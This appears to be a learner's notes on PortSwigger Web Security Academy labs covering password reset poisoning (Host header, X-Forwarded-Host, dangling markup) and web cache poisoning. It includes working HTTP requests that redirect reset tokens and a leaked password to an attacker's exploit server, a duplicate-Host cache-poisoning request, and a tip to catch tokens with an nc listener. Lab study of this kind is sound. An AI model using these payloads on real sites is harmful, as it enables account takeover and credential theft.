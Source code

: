 ``````

I then changed host header to `<original>.com/exploit/` and set it to myself. When I click on it I will send a GET request to the server. On the Access log, I can see that there was a incoming request for `/exploit/forgot-password?temp-forgot-password-token=<token here>`


The goal is change the host header to `<original>.com/exploit/` and change `user=carlos`. Carlos will click on the email and we will then be able to see it on the access log. we will the copy the token and use it to reset carlos password!


Note: If we do ctf, just point it to our `ip:port` and run `nc` listen to that port

#### via middleware
```
POST /forgot-password HTTP/1.1
Host: acef1f6f1f685ced80bd5a0d008b0020.web-security-academy.net
X-Forwarded-Host: accd1fba1fc55c3180755a7501740032.web-security-academy.net/exploit
```
same as last task but we cannot use the same trick. This time we are using `X-Forwarded-Host`. How this I find out? just trying out the techniques that PortSwigger mentioned before.. So now when we know that is work by trying on our own account. change `user=carlos` -> check access log for token `/forgot-password?temp-forgot-password-token=wSoizV4lQdJDO84TTnBa6V6cj610GiIT`. Visit it and reset Carlos password!

#### via dangling markup
```html
     <script>
            window.addEventListener('DOMContentLoaded', () => {
                for (let el of document.getElementsByClassName('dirty-body')) {
                    el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
                }
            });
        </script>
```

```
POST /forgot-password HTTP/1.1
Host: ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/
```

```html
<p>Hello!</p><p>Please <a href='https://ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/?/login'>click here</a> to login with your new password: pUFVxOIq1g</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

no way, I logged into the server with carlos but wasn't done taking note, and do more experiment.... can we redo the lab?

### web cache poisoning
I read in guideline on the PortSwigger, It is not to hard to understand how it works but I learn more when I listen so I youtube a bit on how web cache poisoning works. I couldn't make the extension works so I just try to add different header and end up with `HOST`
```
GET / HTTP/1.1
Host: ac971f5a1fb39ab7807d059500930022.web-security-academy.net
Host: kuro.net
```
an it seem like it works. line 19 in http response
```html
       <script type="text/javascript" src="//kuro.net/resources/js/tracking.js">
```
``````